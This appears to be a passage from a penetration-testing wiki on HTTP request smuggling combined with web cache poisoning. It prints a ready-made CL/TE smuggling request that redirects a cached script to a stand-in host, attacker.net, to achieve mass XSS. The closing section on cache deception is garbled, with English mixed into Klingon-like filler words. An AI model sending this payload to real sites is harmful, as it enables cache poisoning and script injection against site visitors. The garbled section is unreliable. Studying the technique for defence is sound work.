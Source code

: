 ### HTTP Request Smuggling via Web Cache Poisoning <a href="#exploiting-web-cache-poisoning-via-http-request-smuggling" id="exploiting-web-cache-poisoning-via-http-request-smuggling"></a>

Web cache poisoning can be executed if any component of the **front-end infrastructure caches content**, typically to enhance performance. By manipulating the server's response, it's possible to **poison the cache**.

Previously, we observed how server responses could be altered to return a 404 error (refer to [Basic Examples](./#basic-examples)). Similarly, it’s feasible to trick the server into delivering `/index.html` content in response to a request for `/static/include.js`. Consequently, the `/static/include.js` content gets replaced in the cache with that of `/index.html`, rendering `/static/include.js` inaccessible to users, potentially leading to a Denial of Service (DoS).

This technique becomes particularly potent if an **Open Redirect vulnerability** is discovered or if there's an **on-site redirect to an open redirect**. Such vulnerabilities can be exploited to replace the cached content of `/static/include.js` with a script under the attacker's control, essentially enabling a widespread Cross-Site Scripting (XSS) attack against all clients requesting the updated `/static/include.js`.

Below is an illustration of exploiting **cache poisoning combined with an on-site redirect to open redirect**. The objective is to alter the cache content of `/static/include.js` to serve JavaScript code controlled by the attacker:
```
POST / HTTP/1.1
Host: vulnerable.net
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 124
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: attacker.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```
### HTTP request smuggling jol toD pagh web cache deception <a href="#using-http-request-smuggling-to-perform-web-cache-deception" id="using-http-request-smuggling-to-perform-web-cache-deception"></a>

> **web cache poisoning teb pagh web cache deception Qap?**
>
> * **web cache poisoning** Qap, attacker application cache vItlhutlh content malicious stored application users.
> * **web cache deception** Qap, attacker application cache vItlhutlh content sensitive stored user vItlhutlh, attacker vItlhutlh content cache retrieve.
